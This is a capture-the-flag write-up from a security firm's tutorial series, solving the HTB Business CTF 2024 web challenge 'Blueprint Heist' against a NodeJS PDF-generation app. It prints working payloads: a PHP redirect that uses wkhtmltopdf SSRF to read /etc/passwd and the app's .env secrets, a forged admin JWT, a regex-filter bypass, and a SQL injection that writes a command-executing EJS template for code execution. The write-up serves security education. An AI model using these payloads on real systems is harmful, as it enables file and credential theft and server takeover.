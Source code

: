 # Challenge, Train, Flag: Blueprint Heist

At Atlansec, we are committed to CTFs as a key learning tool under the _learning by doing_ methodology. We believe that facing practical challenges is the best way to develop technical skills and foster creativity. With this section we want to spread the value of CTFs, share _writeups_ of challenges of a certain technical complexity and bring the community closer to a practical and technical approach to learning.

### What is a CTF?

Capture the Flag (CTF) competitions are cybersecurity challenges where participants tackle a variety of technical problems to find "flags," which are hidden markers proving successful completion of a task. CTFs simulate real-world scenarios in areas like cryptography, reverse engineering, web security, forensics, and binary exploitation, helping participants build essential cybersecurity skills.

CTFs aren't just competitions; they are a gateway to learning by solving. They teach participants how to think critically, debug complex systems, and adapt under pressure. Each challenge is a story, a puzzle, and a lesson rolled into one.

In this series, we'll explore notable CTF challenges, dive into their technical solutions, and highlight the skills they develop. Welcome to Challenge, Train, Flag!

## Key concepts

- **SSRF (Server-Side Request Forgery):** Technique that allows an attacker to force a server to make HTTP requests on their behalf. Depending on the context, it can be quite critical as it can allow an attacker to access resources within the target's internal network.

- **JSON Web Token (JWT):** An open standard for authenticating and securely transferring information using a token.

- **SQL Injection:** An attack that allows malicious SQL code to be injected into a query to manipulate the database query.

- **wkhtmltopdf:** Library for converting web content (HTML) to PDF.

## The challenge

This time we bring you a challenge from the HTB Business CTF 2024. The challenge is from the web category and although it is listed as easy on the HackTheBox platform, it is one of the most complex web challenges on the platform due to the number of steps that make up the solution.

In this challenge we are given the source code of a NodeJS application and access to a web service running the application.

### Understanding the Application Logic

The challenge starts with access to an application of the urban planning commission. When browsing, we notice that clicking on any of the links generates a POST request to the /download path. Let's review its implementation in the routes file:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Here we can see that the _convertPdf_ function is responsible for handling the logic of this path. Let's go on to examine its code:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

After reading this, we can see that the function makes sure that the parameter it receives is a valid URL before passing it to the _generatePdf_ function. Let's look at the latter next:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

We note that the _generatePdfFromUrl_ function uses _wkhtmltopdf_ to convert the URL content to a PDF file. This flow opens the door to exploit a **SSRF vulnerability** in the library.

### SSRF to local file read on wkhtmltopdf

Using an attacker-controlled server, we can serve files on a web server to redirect the visitor to local file system locations, in this case converting the SSRF on the server into a way to read internal files such as /etc/passwd. To do this, we create a PHP file with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

By passing the URL of our server as a parameter to the /download path, the generated PDF will contain the contents of the /etc/passwd file of the server making the request.

![result pdf when request to /etc/passwd](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FZQtdU4mXr2tBi4QxRQWN%2Fimagen.png?alt=media&token=8ad9ee1c-663e-4193-8590-fa5d29a05340)

We then modify the PHP file to exfiltrate the application's .env file:

```php
<?php header('location:file:///app/.env'); ?>
```

![result pdf when request to /app/.env](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FRAlxHPUFMbqwzl2hPOfP%2Fimagen.png?alt=media&token=9c0d7a88-b46f-4d5a-9956-d7e23f77a99a)

### JWT Forging

With the key extracted from the .env file, we can sign valid JWT tokens. We use a tool like [JWT.io](https://jwt.io/) to generate a token with the administrator role:

```json
{
  "role": "admin"
}
```

![JWT edition](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2Fk7s7AKs1qYnCLf6jxVxv%2Fimagen.png?alt=media&token=167958e1-2dc9-49d1-99fe-5753b628c43c)

Using the token we have generated, we will make a request to the internal admin panel endpoint with the following structure:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

In the generated PDF we can see the contents of the admin panel.  While this generates a screenshot of the admin panel, it only takes us halfway to our ultimate goal.

![screenshot of the admin panel](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FN6Qqr0Zla8nrsYfi3GqM%2Fimagen.png?alt=media&token=f96df24b-e38a-44d7-b03f-f5c5140f7a58)

### SQL injection to file upload

Analysing the rest of the application code, we discovered that the GraphQL endpoint is vulnerable to SQL injection in the _getDataByName_ query. However, a robust regular expression is used to filter out malicious entries:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

A more detailed analysis shows that the expression is not multiline, which allows us to bypass it with a line break (`n`).

- No line break.

![regex matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FiHyLuPjjbRXIy5NUVxhq%2Fimagen.png?alt=media&token=89160232-b5af-47d0-a3ae-076da913d2fa)

- With a line break.

![regex not matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FR3kn9C6HhP3Ignbv4dgV%2Fimagen.png?alt=media&token=f2b092a6-503c-4e23-8299-c88c0ecd15ce)

Once this is discovered, we can build a payload for an SQL injection that writes a malicious EJS file to the 404 error path, since the application does not have a path to handle this type of error.

The payload we build should be similar to the following, where we include an EJS template that reads the flag by executing the target binary.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

With the malicious file in place, we access a non-existent path to throw a 404 error and execute the /readflag command. This gives us access to the contents of the flag.

![Flag](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FeTAq53W6y62vYQRnsHPy%2Fimagen.png?alt=media&token=202cab2a-4da9-4d96-bf7f-8971475f569b)

